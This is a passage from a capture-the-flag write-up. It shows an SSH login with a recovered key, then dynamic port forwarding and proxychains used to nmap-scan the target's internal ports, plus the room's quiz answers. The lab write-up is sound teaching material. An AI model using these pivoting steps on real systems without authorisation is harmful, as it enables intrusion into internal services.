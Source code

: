 ```
What username do we find during the enumeration process?
errorcauser

What is the passphrase for the RSA private key?
SSH_KEY_PASSWORD
```

I could then use this information to connect to the server's ssh. 

```bash
$ ssh errorcauser@target -i id_rsa 
Enter passphrase for key 'id_rsa': 
Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-139-generic x86_64)

...

-bash-4.4$ ls
bin  dev  etc  lib  lib64  note.txt

-bash-4.4$ cat note.txt 
Hi Error!
I've set up a webserver locally so no one outside could access it.
It is for testing purposes only.  There are still a few things I need to do like setting up a custom theme.
You can check it out, you already know what to do.
-Cth
:)
```

## Task 4 - Port Forwarding
The message and the task name make it clear that I need to use port forwarding to get access to the machine. I tried running netstat to list the opened ports, but we seem to be running in a limited shell and the command is not available. 

So I needed to use dynamic port forwarding like explained in the task. I never did that before, so I followed the instructions from the task to do it. 

First setup dynamic port forwarding. 

```bash
ssh -i id_rsa -D 1337 errorcauser@target
```

Keep the ssh connection, open a new local terminal and set proxy chain to allowed scanning the server.

```bash
cat /etc/proxychains.conf 
...
#socks4127.0.0.1 9050
socks5 127.0.0.1 1337 
```

Now use proxychains to run nmap using the tunnel.
```
$ proxychains nmap -sT 127.0.0.1  
[proxychains] config file found: /etc/proxychains.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.14  
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-18 07:43 EDT 
[proxychains] Strict chain  ...  127.0.0.1:1337  ...  127.0.0.1:80  ...  OK 
[proxychains] Strict chain  ...  127.0.0.1:1337  ...  127.0.0.1:995 <--socket error or timeout!  
...
[proxychains] Strict chain  ...  127.0.0.1:1337  ...  127.0.0.1:3306  ...  OK  
...
[proxychains] Strict chain  ...  127.0.0.1:1337  ...  127.0.0.1:80  ...  OK 
...
```
